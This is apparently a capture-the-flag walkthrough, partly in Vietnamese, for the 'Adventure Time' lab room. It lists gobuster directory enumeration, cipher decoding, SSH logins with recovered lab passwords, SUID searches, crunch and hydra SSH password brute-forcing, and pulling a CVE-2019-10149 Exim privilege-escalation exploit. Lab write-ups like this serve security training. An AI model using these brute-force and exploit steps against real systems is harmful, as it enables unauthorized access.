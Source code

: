Room: Adventure Time

Flag1->Hint: Try to recursively enumerate the website(Hãy thử liệt kê (hoặc quét) đệ quy toàn bộ trang web).

$  nmap -sV -v <ip>

<img width="617" height="100" alt="{E4052F82-7898-43AB-9846-334DECEBE22C}" src="https://github.com/user-attachments/assets/07f086c2-edc9-4913-a18c-26d2e237412f" />

gobuster -u https://<IP>-w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

<img width="955" height="318" alt="{CD002047-A8C9-4AE8-B51A-FBAAB9415AFE}" src="https://github.com/user-attachments/assets/5cd30fba-f9d1-49de-ac59-4f2a099abad4" />

=>/candybar/

$  echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d 

=> Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth.

https://en.wikipedia.org/wiki/ROT13

https://www.dcode.fr/caesar-cipher

https://land-of-ooo.com

$  sudo gobuster -u https:// land-of-ooo.com -w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> yellowdog

https://land-of-ooo.com/yellowdog/

$  sudo gobuster dir -u https://land-of-ooo.com/yellowdog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> bananastock

https://land-of-ooo.com/yellowdog/bananastock/

Morse code: _/…./.\_…/._/_./._/_./._/…\._/._./.\_/…./.\_…/./…/_/_._.__/_._.__/_._.__

https://www.dcode.fr/morse-code

=>Pass: The banana are the best!!!

$  sudo gobuster dir -e -u https://land-of-ooo.com/yellowdog/bananastock/ -w /usr/share/wordlists/dirb/common.txt -k

=> princess

https://land-of-ooo.com/yellowdog/bananastock/princess/

https://anycript.com/crypto

AES (viết tắt của Advanced Encryption Standard) là một thuật toán mã hóa đối xứng rất phổ biến và mạnh mẽ, được dùng trong hầu hết các hệ thống bảo mật hiện nay — như HTTPS, VPN, Wi-Fi (WPA2/WPA3), ngân hàng, và thiết bị di động.

$  nc land-of-ooo.com 31337

$  sudo ssh apple-guards@<IP>  ,Password: THE BANANAS ARE THE BEST!!!

Flag2->Hint: Can you search for someone's files?

$  find / -user marceline -type f 2>/dev/null

https://www.boxentriq.com/code-breaking/vigenere-cipher

Vigenère cipher là một mã hóa chữ cái theo kiểu dùng khóa (key) lặp lại để dịch chuyển mỗi chữ cái của plaintext với bảng chữ cái 26 ký tự.

=> Abadeer

$  su marceline > Password: My friend Finn

Flag3:

https://www.dcode.fr/spoon-language

=> The magic word you are looking for is ApplePie

$  nc land-of-ooo.com 31337

$  su peppermint-butler > Password: That Black Magic

Flag4->Hint: Things can be hidden and hidden things can be unfolded with the right passwords(Những thứ có thể bị giấu, và những điều bị giấu có thể được hé lộ nếu có đúng mật khẩu).

$  find / -user peppermint-butler -type f 2>/dev/null

$  cat /usr/share/xml/steg.txt

$  find / -user peppermint-butler -name "*.txt" 2>/dev/null

$  cat /etc/php/zip.txt

$  crunch 18 18 -t 'The Ice King s@@@@' > file.txt

$  sudo hydra -l gunter -P file.txt ssh://<IP>

$  su gunter > Password: The Ice King sucks

Flag5:

$  find / -perm /4000 2>/dev/null

$  searchsploit exim

$  cd /etc/exim4/

$  cat /etc/exim4/update-exim4.conf.conf

$  git clone ‘https://github.com/AzizMea/CVE-2019-10149-privilege-escalation.git'
